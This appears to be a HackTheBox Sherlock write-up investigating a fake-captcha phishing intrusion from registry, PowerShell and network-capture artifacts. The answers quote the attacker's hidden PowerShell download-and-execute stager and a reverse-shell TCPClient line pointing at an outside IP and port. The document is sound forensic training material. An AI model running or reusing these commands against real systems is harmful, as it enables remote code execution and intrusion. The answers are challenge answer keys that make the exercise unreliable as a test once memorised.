










---
tags:
  - htb
  - sherlock
  - easy
  - post
urls:
---
---
# HTB Sherlock - Name Writeup

> **Scenario:** Happy Grunwald contacted the sysadmin, Alonzo, to notify him that he tried downloading the latest version of microsoft office from an update mail he received. He told that he visited the website and solved a captcha but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an intrusion.You are provided with network traffic and endpoint artifacts to answer few of concerning questions.

# QUESTIONS

1. It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

**Answer:** `powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`

The `Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` key inside the `NTUSER.DAT` hive holds the last 28 commands ran via the `Run` dialog (`Win+R`).

Parsing the hive with `RECcmd.exe`:

```powershell
.\RECmd.exe -f C:\ad\Pikaptcha\kape\C\Users\happy.grunwald\NTUSER.DAT --kn Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU --nl false
```



2. At what time in UTC did the malicious payload execute?

**Answer:** `2024-09-23 05:07:45`

Opening the same key inside `Registry Explorer` shows the time the payload was executed:



3. The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

**Answer:** `579284442094E1A44BEA9CFB7D8D794C8977714F827C97BCB2822A97742914DE`

Filtering for the IP from where the script was downloaded reveals the frame `GET` petition inside Wireshark:

```
ip.src == 43.205.115.44 && http
```



Saving the script from the `Export HTTP` objects menu:



Calculating the SHA256 file hash:



4. To which port did the reverse shell connect?

**Answer:** `6969`

Decoding the contents of the script `office2024install.ps1` inside `CyberChef` with the recipe `From Base64 -> Decode Text (UTF-16LE)` reveals content:



The port is visible at the beggining of the script:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("43.205.115.44",6969)
```

5. For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

**Answer:** `403`

Filtering for the C2 port inside Wireshark reveals that the connection was established at `05:07:48` and it was terminated at `05:14:31`:





6. Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

**Answer:** `stageClipboard`

The frame `57543` corresponds to the `GET` petition to the contents of the malicous page `http://43.205.115.44/`:



Following the HTTP stream reveals the malicious function:

